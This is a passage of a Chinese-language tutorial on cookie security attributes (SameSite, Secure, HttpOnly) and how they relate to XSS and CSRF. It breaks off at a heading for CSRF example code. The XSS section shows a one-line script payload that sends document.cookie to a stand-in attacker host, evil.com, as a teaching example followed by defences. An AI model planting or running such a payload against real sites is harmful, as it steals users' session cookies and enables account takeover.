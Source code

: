 | SameSite 屬性 | 跨站請求是否附帶 Cookie           | 常見用途                     |
| ----------- | ------------------------- | ------------------------ |
| `Strict`    | ❌ 不會附帶（包括 GET）            | 最嚴格防禦 CSRF，需使用者從同一站點觸發互動 |
| `Lax`       | ✅ 附帶 GET，但不附帶 POST 等變更操作  | 預設值，適合大多數網站基本防禦需求        |
| `None`      | ✅ 完全附帶，但**必須搭配 `Secure`** | 第三方請求需附帶 Cookie（如第三方登入）  |

### 2.3 Secure 屬性

* 確保 Cookie 只能通過 HTTPS 連接傳送
* 防止 Cookie 在不安全的連接中被竊取
* 當設置 `SameSite=None` 時必須搭配 `Secure` 使用

## 3. 常見安全威脅與防禦

### 3.1 XSS 攻擊

#### 未加 `HttpOnly` 的 XSS 範例

1. 網站登入後回傳：

   ```http
   Set-Cookie: session=abc123; Secure
   ```
2. 攻擊者留言內容：

   ```html
   <script>
     fetch('https://evil.com?c=' + document.cookie)
   </script>
   ```
3. 使用者打開頁面時，自動執行 JS，將 Cookie 傳到攻擊者伺服器
4. 攻擊者複製 Cookie，在自己瀏覽器中偽裝登入成功

#### XSS 防禦建議

* 為敏感 Cookie 設置 `HttpOnly` 屬性
* 實施內容安全政策 (CSP)
* 對用戶輸入進行嚴格的驗證和轉義

### 3.2 CSRF 攻擊

#### 即使有 `HttpOnly` 仍有 CSRF 風險

CSRF 攻擊利用瀏覽器自動附帶 Cookie：

1. 使用者登入 bank.com，取得 Cookie：`session=abc123; HttpOnly`
2. 造訪 evil.com，自動提交表單到 bank.com/transfer
3. 瀏覽器自動帶上 session Cookie，完成未授權操作

**關鍵：** `HttpOnly` 防的是 XSS，不是 CSRF。

#### CSRF 攻擊程式碼範例
